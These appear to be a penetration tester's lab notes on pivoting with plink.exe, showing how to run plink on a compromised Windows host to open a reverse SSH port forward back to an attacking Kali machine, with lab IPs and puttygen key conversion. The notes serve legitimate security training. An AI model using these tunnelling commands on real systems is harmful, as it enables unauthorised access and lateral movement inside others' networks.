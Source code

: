 ```yaml
---
category: Uncategorized
tags: []
---
```

| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

![[Pasted image 20220116113036.png]]

Plink.exe is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:

```command prompt - target
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get around the warning message that the target has not connected to this host before.

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:

```command prompt - target
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using 

```bash - kali
sudo apt install putty-tools
```

 After downloading the tool, conversion can be done with:  

```bash - kali
puttygen KEYFILE -o OUTPUT_KEY.ppk
```

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).  

_**Note:** Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the_ `.exe`_. Whilst there is a copy pre-installed on Kali at_ `/usr/share/windows-resources/binaries/plink.exe`_, downloading a new copy from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible._
